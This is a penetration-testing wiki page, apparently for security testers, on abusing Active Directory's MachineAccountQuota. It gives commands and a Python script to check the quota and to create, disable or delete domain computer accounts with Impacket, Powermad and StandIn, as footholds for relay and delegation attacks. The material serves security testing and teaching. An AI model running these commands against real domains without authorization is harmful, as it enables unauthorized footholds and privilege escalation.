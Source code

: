 # MachineAccountQuota

## Theory

> MachineAccountQuota (MAQ) is a domain level attribute that by default permits unprivileged users to attach up to 10 computers to an Active Directory (AD) domain ([source](https://blog.netspi.com/machineaccountquota-is-useful-sometimes/))

## Practice

There are multiple ways attackers can leverage that power.

* [Force client authentications](../mitm-and-coerced-authentications/), [relay those authentications](../ntlm/relay.md) to domain controllers using LDAPS, and take advantage of authenticated sessions to create a domain computer account. This account can then be used as a foothold on the AD domain to operate authenticated recon (i.e. [with BloodHound](../../recon/bloodhound.md) for example)
* Create a computer account and use it for [Kerberos RBCD attacks](../kerberos/delegations/#resource-based-constrained-delegations-rbcd) when leveraging owned accounts with sufficient permissions (i.e. ACEs like `GenericAll`, `GenericWrite` or `WriteProperty`) against a target machine
* Create a computer account and use it for a [Kerberos Unconstrained Delegation](../kerberos/delegations/#unconstrained-delegations) attack when leveraging owned accounts with sufficient permissions (i.e. the `SeEnableDelegationPrivilege` user right)
* Profit from special rights that members of the Domain Computers group could inherit
* Profit from special rights that could automatically be applied to new domain computers based on their account name

### Check the value

{% tabs %}
{% tab title="UNIX-like" %}
The [MachineAccountQuota](https://github.com/ShutdownRepo/CrackMapExec-MachineAccountQuota) module (for [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec)) can be used to check the value of the MachineAccountQuota attribute.

```bash
cme ldap $DOMAIN_CONTROLLER -d $DOMAIN -u $USER -p $PASSWORD -M maq
```

Alternatively, it can be done manually with the following Python code.

```bash
import ldap3

target_dn = "DC=domain,DC=local" # change this
domain = "domain" # change this
username = "username" # change this
password = "password" # change this

user = "{}\\{}".format(domain, username)
server = ldap3.Server(domain)
connection = ldap3.Connection(server = server, user = user, password = password, authentication = ldap3.NTLM)
connection.bind()
connection.search(target_dn,"(objectClass=*)", attributes=['ms-DS-MachineAccountQuota'])
print(connection.entries[0])
```
{% endtab %}

{% tab title="Windows" %}
In order to run the following commands and tools as other users, testers can check the [user impersonation](../credentials/impersonation.md) part.

The following command, using the [PowerShell ActiveDirectory module](https://docs.microsoft.com/en-us/powershell/module/addsadministration/?view=win10-ps)'s cmdlets Get-ADDomain and Get-ADObject, will help testers make sure the controlled domain user can create computer accounts (the MachineAccountQuota domain-level attribute needs to be set higher than 0. It is set to 10 by default).

```bash
Get-ADDomain | Select-Object -ExpandProperty DistinguishedName | Get-ADObject -Properties 'ms-DS-MachineAccountQuota'
```

FuzzSecurity's [StandIn](https://github.com/FuzzySecurity/StandIn) project is an alternative in C# (.NET assembly) to perform some AD post-compromise operations. Among the possible actions, the MAQ attribute can be requested ([source](https://github.com/FuzzySecurity/StandIn#create-machine-object)).

```powershell
StandIn.exe --object ms-DS-MachineAccountQuota=*
```
{% endtab %}
{% endtabs %}

### Create a computer account

{% tabs %}
{% tab title="UNIX-like" %}
The [Impacket](https://github.com/SecureAuthCorp/impacket) script [addcomputer](https://github.com/SecureAuthCorp/impacket/blob/master/examples/addcomputer.py) (Python) can be used to create a computer account, using the credentials of a domain user the the MachineAccountQuota domain-level attribute is set higher than 0 (10 by default).

```bash
addcomputer.py -computer-name 'SHUTDOWN$' -computer-pass 'SomePassword' -dc-host $DomainController -domain-netbios $DOMAIN 'DOMAIN\anonymous:anonymous'
```

Testers can also use [ntlmrelayx](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ntlmrelayx.py) instead with the `--add-computer` option, like [this](https://arkanoidctf.medium.com/hackthebox-writeup-forest-4db0de793f96)

{% hint style="info" %}
When using [Impacket](https://github.com/SecureAuthCorp/impacket)'s addcomputer script for the creation of a computer account, the "SAMR" method is used by default (instead of the LDAPS one). At the time of writing (10th of December, 2021), the SAMR method creates the account without SPNs.
{% endhint %}
{% endtab %}

{% tab title="Windows" %}
The [Powermad](https://github.com/Kevin-Robertson/Powermad) module (PowerShell) can be used to create a domain computer account.

```bash
$password = ConvertTo-SecureString 'SomePassword' -AsPlainText -Force
New-MachineAccount -MachineAccount 'PENTEST01' -Password $($password) -Verbose
```

While the machine account can only be deleted by domian administrators, it can be deactivated by the creator account with the following command using the Powermad module.

```bash
Disable-MachineAccount -MachineAccount 'PENTEST01' -Verbose
```

An alternative is to use FuzzSecurity's [StandIn](https://github.com/FuzzySecurity/StandIn) (C#, .NET assembly) project to create a new password account with a random password, disable the account, or delete it (with elevated privileges):

```powershell
# Create the account
StandIn.exe --computer 'PENTEST01' --make

# Disable the account
StandIn.exe --computer 'PENTEST01' --disable

# Delete the account (requires elevated rights)
StandIn.exe --computer 'PENTEST01' --delete
```
{% endtab %}
{% endtabs %}

{% hint style="info" %}
Testers need to be aware that the MAQ attribute set to a non-zero value doesn't necessarily mean the users can create machine accounts. The right to add workstations to a domain can in fact be changed in the Group Policies. `Group Policy Management Console (gpmc.msc) > Domain Controllers OU > Domain Controllers Policy > Computer Configuration > Policies > Windows Settings > Security Settings > Local Policies > User Rights Assigments > Add workstations to domain`
{% endhint %}

## Resources

{% embed url="https://blog.netspi.com/machineaccountquota-is-useful-sometimes/" %}

{% embed url="https://www.harmj0y.net/blog/activedirectory/the-most-dangerous-user-right-you-probably-have-never-heard-of/" %}

{% embed url="https://social.technet.microsoft.com/wiki/contents/articles/5446.active-directory-how-to-prevent-authenticated-users-from-joining-workstations-to-a-domain.aspx" %}
